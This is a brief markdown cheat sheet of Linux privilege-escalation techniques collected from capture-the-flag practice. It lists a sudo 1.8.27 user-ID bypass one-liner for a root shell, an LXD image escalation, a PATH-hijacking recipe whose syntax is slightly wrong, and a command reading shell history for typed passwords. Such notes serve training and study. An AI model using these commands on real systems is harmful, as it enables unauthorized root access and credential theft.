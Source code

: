 # Privesc

A quick cheat sheet on privesc I have found while playing thm/htb etc.

## Sudo version 1.8.27

```sudo -u#-1 /bin/bash```

## LXD

Upload alpine image. Run script in exploits folder to get root

## Path hijacking

```
cd /tmp <any writeable directory

echo '/bin/bash' > <command with sudo priv>
set PATH=/tmp:PATH

run command
```
## Check History

Check if user typed passwords etc to terminal
```cat ~/.*history | less ```
